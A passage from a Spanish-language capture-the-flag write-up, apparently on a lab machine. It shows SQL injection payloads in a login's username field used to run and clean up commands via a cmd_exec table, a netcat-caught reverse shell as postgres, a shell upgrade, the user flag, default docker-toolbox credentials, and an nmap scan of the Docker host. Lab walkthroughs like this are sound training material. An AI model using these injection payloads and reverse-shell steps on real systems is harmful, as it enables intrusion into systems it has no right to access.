 Limpio la tabla que había creado

```null
username=';SELECT+*+FROM+cmd_exec;--+-&password='
```

```null
username=';DROP+TABLE+IF+EXISTS+cmd_exec;--+-&password='
```

Gano acceso a un contenedor

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.236] 54573
bash: cannot set terminal process group (9199): Inappropriate ioctl for device
bash: no job control in this shell
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ export TERM=xterm
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ export SHELL=bash
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ stty rows 55 columns 209
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ whoami
postgres
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ hostname -I
172.17.0.2 
```

Puedo ver la primera flag

```null
postgres@bc56e3cc55e9:/var/lib/postgresql$ cat user.txt 
f0183e44378ea9774433e2ca6ac78c6a  flag.txt
```

# Escalada

Las credenciales por defecto para ```docker-toolbox``` son ```docker:tcuser```

Subo un binario estático de ```nmap``` para aplicar HostDiscovery. La IP ```172.17.0.1``` tiene el SSH abierto

```null
postgres@bc56e3cc55e9:/tmp$ ./nmap --min-rate 5000 -n -Pn 172.17.0.1

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-03-23 10:09 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.1
Host is up (0.00025s latency).
Not shown: 1205 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
443/tcp open  https
```
